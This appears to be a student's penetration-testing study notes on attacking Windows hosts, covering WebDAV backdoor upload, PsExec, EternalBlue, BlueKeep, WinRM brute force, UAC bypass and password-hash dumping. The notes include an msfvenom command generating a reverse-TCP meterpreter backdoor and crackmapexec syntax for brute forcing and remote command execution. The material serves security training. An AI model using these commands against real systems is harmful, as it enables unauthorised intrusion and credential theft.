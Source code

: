 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

Tools to use:
- Windows-Exploit-Suggester
- Windows-Kernel-Exploits
- In msf, there is a module called `local_exploit_suggester`

**Bypassing UAC with UACMe**

- Requirements: an account that is part of local admin group
- Bypassing will likely not work if it is set to the highest level
- UACMe is developed by @hfire0x and can be downloaded [here](https://github.com/hfiref0x/UACME)
- It works by abusing the inbuilt windows auteelevate tool
- works ranging from win7 to win10

in meterpreter, using pgrep is to grep the process id

UACMe is a very complicated tool, it is recommended to have a home lab with win7, win8,win8.1 and win10 as lab to test all options

**Windows Access Token**





**Alternate Data Streams**

- ADS is an NTFS file attribute and design to be compatible with macOS HFS
- Attackers can use ADS to hide malicious code and executables in legitimate files
- eg: notepad test.txt:secret.txt


**Dumping Password Hashes**

- Very old version use LM hashes, modern are all NTLM
- All are stored in SAM database and it's locked when the computer is running, thus attacker has to use in-memory techniques to dump SAM hashes from LSASS process
- SAM database is encrypted with a syskey in modern windows
- Elevated/Admin privs are required in order to access and interact with LSASS process
- LM(LanMan) hashes are splited into 2 chunks and hashed with DES algorithm
- NTLM does not split the hash into 2 chunks, also case sensitive unlike LM, but it's not salted, which makes it still quite easy to crack

## Linux
